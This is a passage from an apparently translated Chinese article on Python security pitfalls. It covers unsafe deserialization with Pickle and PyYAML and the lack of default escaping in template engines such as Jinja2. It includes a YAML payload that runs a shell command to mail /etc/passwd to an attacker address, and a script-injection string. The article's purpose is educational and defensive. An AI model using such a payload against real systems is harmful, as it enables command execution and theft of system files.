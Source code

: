 ## 不安全的反序列化

存在许多数据序列化计算，其中， `Pickle` 是专为反序列化/序列化Python对象而设计的。其目的在于将活动的Python对象转存储为用以存储或传输的字节流，然后将它们重新构造成(可能是)另一个Python实例。如果序列化数据被篡改，那么重新构造的过程则是潜在的风险。Pickle的不安全性是公认的，并且在Python文档中有明确指出。

作为一个流行的配置文件格式， YAML 不一定被认为是一个能够诱使反序列化器执行任意代码的强大的序列化协议。让它甚至更危险的是，事实上 Python 的 YAML 默认实现 —— `PyYAML` 让反序列化看起来非常无辜：

```py
>>> import yaml
>>>
>>> dangerous_input = """
   ... some_option: !!python/object/apply:subprocess.call
   ...   args: [cat /etc/passwd | mail attacker@blackhat.com]
   ...   kwds: {shell: true}
   ... """
>>> yaml.load(dangerous_input)
{'some_option': 0}
```

...而 `/etc/passwd` 已经被窃取了。一个建议的解决方法是总是使用 `yaml.safe_load` 来处理那些你不信任的YAML序列化。尽管如此，目前的PyYAML默认感觉有些驱使人考虑其他倾向于为相似的目的使用 `dump`/`load` 函数名（但是以一种安全的方式）的序列化库。

## 模板引擎

Web应用作者很早之前就采用了Python。在十年的过程中，开发了相当多的Web框架。它们许多都利用了 `模板引擎` 来从，嗯，模板和运行时变量生成动态web内容。除了web应用，模板引擎还渗入到完全不同的软件中，例如 Ansible IT 自动化工具。

当内容被静态模板和运行时变量渲染时，会有用户控制的代码通过运行时变量注入的风险。针对web应用的成功发起攻击可能导致 `跨站脚本` 漏洞。服务器端模板诸如的一般缓解方法是插值到最终文档之前清理模板变量的内容。清理可以通过拒绝、剥离或者转义那些特定于任何给定的标记或者其他特定领域的语言字符来完成。

不幸的是，这里，模板引擎似乎并没朝着更严格的安全靠近 —— 看看最流行的实现，它们都没有默认使用转义机制，而是依赖开发者对风险的意识。

例如，`Jinja2` ，这一可能是最流行的工具之一，渲染一切：

```py
>>> from jinja2 import Environment
>>>
>>> template = Environment().from_string('')
>>> template.render(variable='<script>do_evil()</script>')
'<script>do_evil()</script>'
```

...除非许多可能的转义机制之一是显式地反转其默认设置：

```py
>>> from jinja2 import Environment
>>>
>>> template = Environment(autoescape=True).from_string('')
>>> template.render(variable='<script>do_evil()</script>')
'&lt;script&gt;do_evil()&lt;/script&gt;'
```

另外一个复杂之处在于，在某些使用情况下，程序员不想清除所有的模板变量，故意留下一些来保持潜在危险的内容不变。模板引擎通过引入"过滤器"来让程序员明确清理各个变量的内容，以满足这种需要。 Jinja 2还提供触发每个模板基础中默认转义的可能性。

如果开发者选择只转义标记语言标签的子集，让其他合法地溜进最后的文档中，那么它会变得更加脆弱和复杂。

## 总结

本文并不是要具体列出 Python 生态中所有潜在的陷阱和缺点。我们的目标是提高对那些一旦开始用 Python 写代码就有可能出现的安全风险的警觉性，希望让编程更加愉快，让我们的生活更加安全。
